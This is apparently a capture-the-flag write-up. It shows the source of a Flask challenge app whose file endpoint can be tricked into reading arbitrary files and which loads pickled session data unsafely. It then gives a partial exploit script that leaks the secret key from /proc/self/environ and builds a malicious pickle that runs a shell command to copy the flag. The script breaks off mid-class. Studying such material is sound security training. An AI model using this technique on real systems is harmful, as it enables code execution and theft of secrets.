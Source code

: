 ```
    if not session.get('u'):
        u = pickle.dumps(User())
        session['u'] = u
    return "/file?file=index.js"


@app.route('/file', methods=('GET',))
def file_handler():
    path = request.args.get('file')
    path = os.path.join('static', path)
    if not os.path.exists(path) or os.path.isdir(path) \
            or '.py' in path or '.sh' in path or '..' in path or "flag" in path:
        return 'disallowed'

    with open(path, 'r') as fp:
        content = fp.read()
    return content


@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):
            u = b64decode(u.get('b'))
        u = pickle.loads(u)
    except Exception:
        return 'uhh?'

    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'


if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)
```

paylaod:

```
import base64
import pickle
from flask.sessions import SecureCookieSessionInterface
import re
import pickletools
import requests

url=""

def get_secret_key():
    target = url + "/file/?file=/proc/self/environ"
    r = requests.get(target)
    key = re.findall('key=(.*?)OLDPWD',r.text)
    return  str(key[0])
secret_key = get_secret_key()

class FakeApp:
    secret_key =secret_key
class User(object):
    def __reduce__(self):
        import os
        cmd = "cat /flag > /tmp/test1"
```